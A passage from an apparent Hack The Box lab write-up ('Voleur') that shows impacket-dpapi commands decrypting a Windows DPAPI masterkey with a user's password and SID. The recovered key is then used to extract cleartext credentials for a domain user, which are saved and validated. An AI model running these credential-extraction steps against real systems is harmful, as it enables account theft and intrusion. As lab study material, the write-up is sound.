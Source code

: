 ```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -password 'NightT1meP1dg3on14' -sid S-1-5-21-3927696377-1337352550-2781715495-1110
```

![image.png](/assets/images/Voleur_HTB/image%2038.png)

This gives us the decrypted key, we can use this key to extract secrets from the credential file.

```bash
impacket-dpapi credential -f '772275FAD58525253490A9B0039791D3' -key '0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83'
```

![image.png](/assets/images/Voleur_HTB/image%2039.png)

This gives us the clear text credentials of the **jeremy.combs** user.

Saved those credentials to our creds.txt file, also validated that the credentials are ok.

![image.png](/assets/images/Voleur_HTB/image%2040.png)

Now since **Jeremy.combs** is a part of **Third-Line Support Technicians.**
